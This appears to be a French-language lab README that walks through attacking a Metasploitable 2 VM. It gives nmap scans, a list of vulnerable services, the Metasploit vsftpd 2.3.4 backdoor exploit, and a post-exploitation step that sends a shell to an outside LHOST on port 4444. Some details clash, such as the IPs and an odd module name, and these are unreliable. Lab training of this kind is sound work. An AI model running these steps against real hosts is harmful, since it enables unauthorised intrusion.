

## installation



2. setup network one metasploitable : 
```bash
auto eth0
iface eth0 inet static
    address 192.168.1.100
    netmask 255.255.255.0
    gateway 192.168.1.1
```

3. nmap result : 
```bash
nmap -sV -p- 192.168.10.5
```

a. Result:

b. interpretation :
D'après le scan Nmap, voici les services vulnérables les plus intéressants sur Metasploitable 2 :

🔴 Services FTP Vulnérables :
- vsftpd 2.3.4 (port 21)
- ProFTPD 1.3.1 (port 2121)

🔓 Services SSH/Telnet :
- OpenSSH 4.7p1
- Telnet (port 23)

🌐 Services Web :
- Apache 2.2.8 
- Apache Tomcat (port 8180)

🔐 Bases de données :
- MySQL 5.0.51a
- PostgreSQL 8.3.0 - 8.3.7

🔌 Autres services intéressants :
- Samba (ports 139/445)
- UnrealIRCd (ports 6667/6697)
- RMI Java 
- VNC (port 5900)

Voulez-vous que je vous guide pour exploiter l'un de ces services en particulier ?
4. scan avec Metasploit
```bash
msfconsole
msf> use auxiliary/scanner/portscan/tcp
msf> set RHOSTS 192.168.10.5
msf> run
```

5. Exploitation VSFTPd
```bash
msfconsole
msf> search vsftpd
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf> set RHOSTS 192.168.10.5
msf> exploit
```

🔒 Commandes Post-Exploitation
```bash
msfconsole
msf> use post/multi/manage/shell_to_tcp
msf> set RHOSTS 192.168.10.5
msf> set LHOST 237.84.2.178
msf> set LPORT 4444
msf> exploit
```

### Risques VSFTPd :

* Accès non autorisé
* Exécution de commandes distantes
* Potentielle élévation de privilèges

6. Test et exploitation pas à pas
```bash
# Test initial avec nmap
nmap -sS @cible

# Ouverture de Metasploit
msfconsole

# Scan avec Metasploit
msf> use auxiliary/scanner/portscan/tcp
msf> show info
msf> set RHOSTS @cible
msf> run

# Recherche de vulnérabilités VSFTPd
msf> search vsftpd

# Exploitation de la vulnérabilité
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf> exploit
